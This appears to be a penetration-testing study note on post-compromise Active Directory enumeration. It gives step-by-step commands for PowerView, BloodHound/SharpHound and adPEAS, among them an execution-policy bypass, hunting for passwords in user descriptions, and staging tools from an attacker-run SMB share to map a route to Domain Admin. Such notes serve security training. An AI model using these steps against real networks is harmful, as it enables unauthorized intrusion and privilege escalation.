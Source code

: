 # Attacking AD: Post-Compromise Enumeration

## Introduction

* Once you have a compromise, how can you enumerate the network and increase your overall level of access?

### Tools

* PowerView -- AD Enumeration tool (PowerShell)
* BloodHound -- Graphical representation of AD environment
* SharpHound -- BloodHound's collector
* adPEAS -- Just a <mark style="color:yellow;">chad</mark> of a tool.

<mark style="color:yellow;">Make sure that you ALWAYS use a new and fresh version of BloodHound and SharpHound!</mark>

### Repos

PowerView:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

BloodHound:&#x20;

{% embed url="https://github.com/BloodHoundAD/BloodHound/releases" %}

SharpHound (Collector):

{% embed url="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors" %}

adPEAS:

{% embed url="https://github.com/61106960/adPEAS" %}

## PowerView

Step 1: Transfer PowerView.ps1 on the target machine

Step 2: Set Execution Policy -- <mark style="color:yellow;">`powershell -ep bypass`</mark>

Step 3: Dot Sourcing -- <mark style="color:yellow;">`. .\PowerView.ps1`</mark>

Step 4: Start running commands!

Step 5: <mark style="color:yellow;">`Get-NetDomain`</mark>

Step 6: Get DC Info -- <mark style="color:yellow;">`Get-NetDomainController`</mark>

Step 7: Show domain policies -- <mark style="color:yellow;">`Get-DomainPolicy`</mark>

Step 8: User Info -- <mark style="color:yellow;">`Get-NetUser`</mark>

or just grab a list of domain users -- <mark style="color:yellow;">`Get-NetUser | select samaccountname`</mark>

Look for password in user descriptions -- <mark style="color:yellow;">`Get-NetUser | select description`</mark>

Step 9: Find Shares -- <mark style="color:yellow;">`Invoke-ShareFinder`</mark>

Step 10: Look at Group Policies -- <mark style="color:yellow;">`Get-NetGPO | select displayname, whenchanged`</mark>

### Cheat Sheet

{% embed url="https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993" %}

## BloodHound

Run Neo4j:

```
neo4j console
```

Run BloodHound:

```
bloodhound
```

* Type in username and password

### Grab Data w/ Invoke-BloodHound (Collector)

* You can utilize the PowerShell version of SharpHound for Invoking (SharpHound.ps1)

Transfer SharpHound to your target:

Kali:&#x20;

```
impacket-smbserver smb . -smb2support
```

Windows:&#x20;

```
net use \\kali-ip\smb
copy \\kali-ip\smb\SharpHound.ps1
```

Invoke-BloodHound:

```
. .\SharpHound.ps1

Invoke-BloodHound -CollectionMethod All
```

* It will generate a zip file
* Obtain this zip file from the SMB file share that you created and drag and drop it into BloodHound

## Enumerating Domain Data w/ BloodHound

* Be sure to load up the pre-build queries and see what we have to do to get to DA
* Be sure to right-click on items for help with exploitation!

<mark style="color:yellow;">Should we look into custom queries?</mark>

{% embed url="https://github.com/hausec/Bloodhound-Custom-Queries" %}

Things to keep in mind:&#x20;

* You use PowerView to look for users, groups, group policies, computers, etc.
* BloodHound to look at administrators, high value targets, which members are administrators, etc.

## adPEAS

Step 1: Transfer script to Windows target (SMB server)

Step 2: Import and Invoke

```
Import-Module .\ADPeas.ps1

Invoke-ADPeas
```

Step 3: Go through slowly
